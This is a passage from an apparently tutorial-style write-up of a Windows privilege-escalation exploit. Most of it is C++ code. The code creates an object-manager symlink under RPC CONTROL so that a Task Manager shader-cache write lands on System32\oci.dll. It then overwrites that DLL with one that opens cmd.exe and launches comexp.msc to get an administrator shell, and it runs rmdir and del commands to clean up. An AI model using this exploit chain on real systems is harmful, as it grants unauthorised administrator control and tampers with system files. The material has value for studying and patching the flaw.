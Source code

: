```cpp
     std::wcout << L"Value read from file: " << recentFile << std::endl;
 }
 else {
     std::wcerr << L"Failed to open recent.txt\n";
 }
```

Next, I'll create an Object Based symlink.  An object-based symlink (short for object manager-based symbolic link) is a type of symbolic link in Windows that exists within the Windows Object Manager namespace rather than the traditional file system.  It's nice because you can create links using the RPC CONTROL global object without requiring administrator privileges to do so.

```cpp
BOOL CreateDosDevice(LPCWSTR deviceName, LPCWSTR targetPath) {
    if (DefineDosDevice(DDD_RAW_TARGET_PATH, deviceName, targetPath)) {
        std::wcout << L"Created DosDevice: " << deviceName << L" -> " << targetPath << std::endl;
        return TRUE;
    }
    else {
        std::cerr << "Failed to create DosDevice: " << GetLastError() << std::endl;
        return FALSE;
    }
}

std::wstring dosDeviceName = L"Global\\GLOBALROOT\\RPC CONTROL\\" + recentFile;

if (CreateDosDevice(dosDeviceName.c_str(), dllTarget.c_str())) {
    std::wcout << L"Symlink created: " << dosDeviceName << L" -> " << dllTarget << std::endl;
    
}
else {
    std::wcerr << L"CreateDosDevice failed: " << GetLastError() << std::endl;
    return 1;
}
```

Lastly, we launch TaskManager again to create the dummy file that we plan to take advantage of. The file get's created, and the following takes place:

- The dummy file is written to `C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\4acae28c94cad7a0b8f78d11fefc67ef3b8cd41ecba3ad1a9da81873fb4c56f8` and then redirected to `c:\\windows\\system32\\oci.dll`
- We have our custom made oci.dll DLL file we will use that we created earlier.  Remember?  It's the very basic DLL code that just simply opens cmd.exe
- We copy the custom oci.dll file and overwrite the one in System32 that we now have the ability to write to.
- ComExp.msc (Component Services) uses this DLL file so we just run comexp.msc and our payload gets loaded and the rest is history!

```cpp
 LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000); 

 WinExec("cmd.exe /c copy /Y c:\\myfolder\\oci.dll c:\\windows\\system32\\oci.dll", 0); //overwrite dummy file with our file
 Sleep(3000);
 WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
 std::cout << "Launching admin shell!\n";
 LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\comexp.msc", L"", 3000); 
 std::cout << "[+] Cleanup: removing oci.dll to prevent unwanted issues with other exe's that want to load it\n";
 Sleep(1000);
 WinExec("cmd.exe /c del /F /Q C:\\Windows\\System32\\oci.dll", 0);
 return 0;
```
